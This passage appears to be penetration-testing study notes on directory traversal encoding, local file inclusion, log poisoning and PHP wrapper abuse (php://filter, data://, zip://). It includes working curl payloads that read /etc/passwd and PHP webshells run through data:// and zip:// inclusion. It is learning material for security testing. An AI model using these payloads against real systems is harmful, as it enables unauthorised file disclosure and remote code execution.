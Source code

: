 	- Encode `.` as `%2e`
	- Encode `/` as `%2f`
```zhs
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
- Consult [PayloadAllTheThings - Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md) for more potential encodings like double encodings

# File Inclusions
## Local File Inclusion (LFI)
### Log Poisoning
- We can potentially poison logs with executable command and then include the log with LFI
- Common Log Locations
```zsh
/var/log/apache2/access.log
C:\xampp\apache\logs\
```

### Process Information
- We might get information about the running process by reading the file `/proc/self/cmdline` 
### PHP Wrappers
#### `php://filter`
- In case we do not want the included file to be executed, we can use the `php://filter` wrapper
```zsh
curl http://offsec.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
- The `ressource` parameter is required to specify the file stream for filtering. 
- For a list of available filters check the [PHP Documentation](https://www.php.net/manual/en/filters.php) or [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter) 
#### `data://`
- The `data://` wrapper can be used to achieve code execution
- In order for this wrapper to work `allow_url_include` must be enabled in PHP
```zsh
curl http://offsec.com/index.php?page=data://text/plain,<?php%20echo%20system('whoami');?>

echo -n '<?php echo system($_GET["cmd"]); ?>' | base64

curl http://offsec.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTsgPz4=&cmd=ls
```
- Use `data://text/plain;base64,` to bypass trivial filters
#### `zip://` 
- We can use the `zip://` to read zip-files and access elements in it
- If we have the ability to upload custom zip-files this might lead to remote code execution as shown [here](https://rioasmara.com/2021/07/25/php-zip-wrapper-for-rce/) or on [Hacktricks](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=zip%20wrapper#zip-and-rar)
```zsh
# Creating a simple webshell
echo "<?php system($_GET['cmd']); ?>" > payload.php
# Zipping it
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl "http://192.168.177.229/index.php?file=zip://payload.zip%23payload.php&cmd=id"
```
